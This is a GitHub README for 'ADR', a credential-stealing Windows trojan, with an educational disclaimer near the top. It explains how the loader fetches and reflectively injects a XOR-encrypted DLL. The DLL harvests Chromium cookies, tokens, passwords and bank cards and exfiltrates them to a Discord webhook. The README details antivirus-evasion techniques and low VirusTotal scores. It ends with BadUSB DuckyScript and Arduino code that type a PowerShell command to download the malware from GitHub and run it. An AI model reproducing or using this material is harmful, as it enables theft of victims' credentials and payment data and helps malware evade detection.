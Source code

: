 # ADR 💥

ADR is a trojan that retrieves all information on the computer and all data stored in applications using chormium. It recovers cookies, tokens, passwords and saved bank cards. This malware is undetectable by Windows Defender, Chrome, Virustotal (4/71).

> ❗ This project has a strictly educational objective. It aims to provide information, advice and resources in an educational context. I want to emphasize that I do not support or encourage any malicious or damaging use of this information. Any negative or abusive interpretation goes against the educational intent of this project. As the creator of this content, I accept no responsibility for any misuse that may arise from its use.

## bADR (EXE)

bADR is the entry program that will load ADR (the DLL that contains the malware).
bADR downloads the DLL online, this DLL is encrypted in XOR so as not to be detected by the antivirus. The DLL is then decoded and then injected into the memory of the process to execute the "main" function.

* download the DLL encode in XOR
* decode the XOR
* loading the DLL into memory (without using LoadLibraryA)
* execution of the "main" function of the ADR malware


bADR uses a few tricks to avoid being detected by anti-viruses, in particular:

* hiding suspicious functions using LoadLibrary and GetProcAddress (so imports are hidden and not visible in the executable)
* the masking of character strings, the url at which the payload is located, encrypt in XOR so as not to be readable in the executable directly
* optimization of compiler parameters and compression with UPX
* to make it possible to hide the imports even more, if we do not have an executable heavier in KB, we can change the Runtime Library. Indeed, switching from Multi-threaded DLL mode (/MD) to Multi-threaded mode (/MT) hides all imports (with UPX). However, it takes about 40 KB more than the Multi-threaded DLL version.

## ADR (DLL)

ADR is compiled in DLL, encoded in XOR, then uploaded to a server to be loaded later by bADR. 
the main function is the entry point of the malware, this function aims to:

* scan Windows AppData folder for folder using Chromium file structure
* recover all cookies, tokens, passwords, local state, credit card, history and autocompletion
* find all the information on the machine used
    * MAC Address
    * Public IP
    * Processor
    * Architecture
    * Storage
    * Local Time
    * Language
    * Machine Name
* all this data is then compressed into a Zip file which will be sent to a discord webhook (obviously this data can be sent to any public server or webhook).

## gADR (EXE)

gADR is the Golang version of bADR. With this version we reached the score of 4/71 detection on virustotal. This results and largely due to the obfuscator: garble, which allowed this incredible result. The golang code does not change much from the C version, loading the DLL into memory reuses the C code from bADR and is compiled with CGO.

> why no compression with UPX?

gARD will not decompress with UPX because it is much more detectable with compression enabled. The gADR.exe pyaload is therefore heavier (5 MB).

> Compile with Garble

```cmd
@REM install it: go install mvdan.cc/garble@latest
@REM build:

build.bat
```

### Anti Virus

**bADR (EXE)**

*   ❔     Virustotal 6/70 
    * ❌     6
    * ✅     70
*   ✅     Windows Defender
*   ✅     Chrome AntiVirus
*   ✅     Manalyzer

**gADR (EXE)**

*   ❔     Virustotal 4/70 
    * ❌     4
    * ✅     70
*   ✅     Windows Defender
*   ✅     Chrome AntiVirus
*   ✅     Manalyzer


**ADR (XOR)**

*   ✅     Virustotal 72/72
*   ✅     Windows Defender
*   ✅     Chrome AntiVirus
*   ✅     Manalyzer

### UPX compression

ADR and bADR files are compressed with UPX to reduce the size of the payload.

```
bADR.exe 15   ko => 10   ko  (Runtime Library Multi-threaded DLL /MD)
bADR.exe 114  ko => 54   ko  (Runtime Library Multi-threaded /MT)
ADR.dll  670  ko => 305  ko
```

### Demo

Once the malware is launched, all the information is then sent to a url. In the demo, it's a discord webhook that displays the data we collect.
This data comes from a Virustotal virtual machine that checks and analyzes the behavior of the malware.
Here is the message we receive from the webhook after the program is launched on one of these virtual machines:

![demo.png](demo.png)


### Bonus BadUSB

__Digispark Rev.3 Kickstarter with Attiny85 and USB compatible with Arduino__

  You can buy it [here](https://www.az-delivery.de/en/products/digispark-board).

> DuckyScript

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -command "(New-Object Net.WebClient).DownloadFile('https://github.com/julesgrc0/ADR/releases/download/0.0.3/bADR.exe','%userprofile%\bADR.exe');(New-Object -com shell.application).shellexecute('%userprofile%\bADR.exe');exit"
ENTER
```

> Arduino C/C++ Code

```cpp
#include "Keyboard.h"

void typeKey(uint8_t key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}


void setup()
{
  Keyboard.begin();
  delay(500);

  delay(1000);
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(200);
  Keyboard.print(F("powershell -command \"(New-Object Net.WebClient).DownloadFile('https://github.com/julesgrc0/ADR/releases/download/0.0.3/bADR.exe','%userprofile%\\bADR.exe');(New-Object -com shell.application).shellexecute('%userprofile%\\bADR.exe');exit\""));

  typeKey(KEY_RETURN);

  Keyboard.end();
}

void loop() {}
```
